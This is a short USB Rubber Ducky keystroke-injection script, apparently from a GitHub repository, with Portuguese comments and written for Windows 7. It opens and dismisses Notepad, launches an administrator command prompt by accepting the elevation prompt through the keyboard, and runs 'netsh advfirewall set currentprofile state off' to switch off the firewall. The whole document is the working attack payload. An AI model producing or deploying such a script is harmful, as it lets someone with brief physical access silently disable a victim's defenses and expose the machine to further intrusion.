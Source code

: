 # W7-Firewall-disable-USB-rubber-Ducky
#Disable the firewall of W7 using an USB Rubber Ducky

REM Turn on or off firewall for the current profile

REM Aviso de inicializacao

DELAY 1000
GUI r
DELAY 500
STRING notepad
DELAY 500
ENTER
DELAY 500
STRING Aviso de inicializacao
DELAY 500
ALT F4
DELAY 500
RIGHT
DELAY 500
ENTER


REM Iniciando o CMD como Administrador

DELAY 500
CONTROL ESC
DELAY 500
STRING cmd
DELAY 500
MENU
DELAY 500
DOWN
DELAY 500
DOWN
DELAY 500
ENTER 
DELAY 500
LEFT
DELAY 500
ENTER

REM Desabilitando o firewall

DELAY 500
STRING netsh advfirewall set  currentprofile state off
ENTER
DELAY 500
STRING exit
ENTER
